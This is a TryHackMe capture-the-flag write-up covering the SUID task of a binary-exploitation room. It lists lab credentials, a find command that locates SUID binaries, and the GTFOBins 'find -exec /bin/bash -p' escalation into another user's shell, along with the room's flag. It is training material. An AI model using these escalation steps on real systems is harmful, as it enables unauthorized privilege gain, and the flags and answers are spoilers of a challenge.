 1. What are the login credential for initial access. Answer format should be in username:password

`tryhackme:thebest`

## Task 2 SUID :: Binary 1

Read the flag.txt from des's home directory.

```
tryhackme@THM_exploit:~$ find / -type f -perm -u=s -user des -ls 2> /dev/null
   262721    236 -rwsr-sr-x   1 des      des        238080 Nov  5  2017 /usr/bin/find
tryhackme@THM_exploit:~$ ls -la /usr/bin/find
-rwsr-sr-x 1 des des 238080 Nov  5  2017 /usr/bin/find
```

[https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

```
tryhackme@THM_exploit:~$ find . -exec /bin/bash -p \; -quit
bash-4.4$ whoami
des
bash-4.4$ cd /home/des/
bash-4.4$ ls -la
total 52
drwx------ 4 des  des  4096 Jan 17  2020 .
drwxr-xr-x 6 root root 4096 Jan 17  2020 ..
-rw------- 1 root root 1740 Jan 12  2020 .bash_history
-rw-r--r-- 1 des  des   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 des  des  3771 Apr  4  2018 .bashrc
-rwsr-xr-x 1 kel  kel  8600 Jan 17  2020 bof
-rw-r--r-- 1 root root  335 Jan 17  2020 bof64.c
drwx------ 2 des  des  4096 Jan 12  2020 .cache
-r-x------ 1 des  des   237 Jan 17  2020 flag.txt
drwx------ 3 des  des  4096 Jan 12  2020 .gnupg
-rw-r--r-- 1 des  des   807 Apr  4  2018 .profile
bash-4.4$ cat flag.txt 
Good job on exploiting the SUID file. Never assign +s to any system executable files. Remember, Check gtfobins.

You flag is THM{exploit_the_SUID}

login crdential (In case you need it)
username: des
password: destructive_72656275696c64
```

`username: des password: destructive_72656275696c64`

1. What is the contents of /home/des/flag.txt?

`THM{exploit_the_SUID}`

## Task 3 Buffer Overflow :: Binary 2

Read the flag.txt from kel's home directory.
